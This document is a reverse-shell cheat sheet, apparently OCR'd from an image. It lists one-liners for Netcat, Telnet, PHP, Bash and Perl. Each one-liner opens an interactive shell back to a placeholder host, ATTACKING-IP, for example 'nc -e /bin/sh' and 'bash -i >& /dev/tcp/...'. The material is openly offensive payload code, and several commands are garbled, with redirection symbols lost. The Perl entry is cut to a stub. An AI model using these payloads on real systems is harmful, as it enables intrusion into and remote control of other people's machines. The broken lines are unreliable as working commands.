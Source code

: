 ### **Netcat**

```bash
nc -e /bin/sh ATTACKING-IP 80
```

```bash
/bin/sh | nc ATTACKING-IP 80
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

### **Telnet Reverse Shell**

```bash
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```

```bash
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

### **PHP**

```bash
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```

- (Assumes TCP uses file descriptor 3. If it doesn’t work, try 4,5, or 6)

### **Bash**

```bash
exec /bin/bash 0&0 2>&0
```

```bash
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196
```

```bash
exec 5<>/dev/tcp/ATTACKING-IP/80 cat <&5 | while read line; do $line 2>&5 >&5; done
```

```bash
# or: while read line 0<&5; do $line 2>&5 >&5; done
```

```bash
bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
```

### **Perl**

```bash
exec "/bin/sh";
```

